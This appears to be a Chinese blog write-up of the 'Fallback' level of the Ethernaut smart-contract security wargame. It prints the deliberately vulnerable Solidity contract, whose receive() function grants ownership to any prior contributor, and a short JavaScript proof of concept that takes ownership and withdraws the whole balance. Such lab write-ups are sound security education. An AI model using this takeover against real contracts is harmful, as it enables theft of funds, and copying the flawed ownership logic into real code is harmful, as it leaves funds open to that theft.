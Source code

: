 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-1'
date: 2022-12-5 13:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'




---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第一关Fallback思路与POC

##### 目标:提取合约中的所有余额

##### 首先看代码：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

//部署合约时限定部署者为owner,并贡献了1000ETH
  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }
//每次只能贡献0.001ETH,贡献超过1000ETH后自动成为合约拥有者
  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

#### 通过审计合约代码可以发现,只需要想办法将owner存储的值设置为我们的钱包地址即可

##### 问题在哪里:很明显 receive() external. 设置了receive函数来接收转账,并且通过校验即改变owner存储的地址

##### poc思路 向Fallback合约发送转账,并通过 require(msg.value > 0 && contributions[msg.sender] > 0) 此校验

poc代码:

```js
await contract.contribute({value : 900000000000000})
await contract.sendTransaction({value : 1})
//此时查看合约owner地址已经是我们的钱包地址
await contract.owner()
'0x0e21d35681E679C33dD49731935FB81F1aee8C05'
//成功提现合约中的所有token
await contract.withdraw()
```

![](./assets/1670480318021.png)
